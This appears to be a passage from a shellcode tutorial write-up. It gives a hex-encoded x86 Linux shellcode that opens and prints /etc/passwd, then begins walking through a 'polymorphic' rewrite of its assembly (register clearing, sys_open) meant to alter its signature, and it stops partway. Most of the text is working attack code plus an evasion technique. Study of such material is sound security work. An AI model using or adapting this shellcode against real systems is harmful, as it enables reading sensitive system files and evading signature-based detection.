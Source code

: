 ```nasm
"\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"
"\x80\x89\xc6\xeb\x06\xb0\x01\x31"
"\xdb\xcd\x80\x89\xf3\xb0\x03\x83"
"\xec\x01\x8d\x0c\x24\xb2\x01\xcd"
"\x80\x31\xdb\x39\xc3\x74\xe6\xb0"
"\x04\xb3\x01\xb2\x01\xcd\x80\x83"
"\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"
"\xff"
"/etc/passwd"; //Put here the file path, default is /etc/passwd
```
<p style="text-align: justify;">I will try to present my polymorphic shellcode in parts (and finally the whole) in order to explain in detail the changes and improvements I have made.</p>

### Clearing 

Original code:
```nasm
global _start			

section .text
_start:
  xor eax, eax
  xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
	jmp two
```
Code after changes:
```nasm
global _start			

section .text
_start:
	xor eax, eax
	jmp two
```
<p style="text-align: justify;">The EBX, ECX and EDX registers are empty when you enter the _start() function, so there is no need to clean them.
</p>

### sys_open()
 
<p style="text-align: justify;">The "two" section remains unchanged and remains at the end of our code.</p>

```nasm
 two:
  call one
```
Original code:
```nasm
 one:
	pop ebx
	mov al, 5
	xor ecx, ecx
	int 0x80
	mov esi, eax
	jmp read
```
Code after changes:
```nasm
 one:
	pop ebx
	mov al, 5
	int 0x80
	mov esi, eax
```